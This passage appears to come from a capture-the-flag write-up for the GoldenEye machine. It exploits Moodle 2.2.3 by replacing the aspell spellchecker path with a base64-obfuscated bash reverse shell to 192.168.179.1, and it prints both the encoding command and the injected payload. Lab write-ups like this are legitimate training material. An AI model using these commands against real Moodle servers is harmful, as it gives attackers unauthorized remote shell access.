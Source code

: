 ![](/assets/images/goldeneye/screenshot-15.png)

## Exploitation
### Remote Command Execution

This version 2.2.3 of moodle allows an authenticated user to define spellcheck settings via the web interface. The user can update the spellcheck mechanism to point to a system-installed aspell binary. By updating the path for the spellchecker to an arbitrary command, an attacker can run arbitrary commands in the context of the web application upon spellchecking requests.


To exploit this, we need to locate ourselves in the following path:

```bash
Site administration -> Server -> System paths
```

Then I base64 encoded the bash reverse shell to obfuscate it.

```bash
root@kali:~$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.179.1/443 0>&1"' | base64 | tr -d '\n'
L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNzkuMS80NDMgMD4mMSIK
```

In the **Path to aspell** box we enter the following instruction, and save the changes.

```bash
$(echo 'L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNzkuMS80NDMgMD4mMSIK' | base64 -d | bash)
```
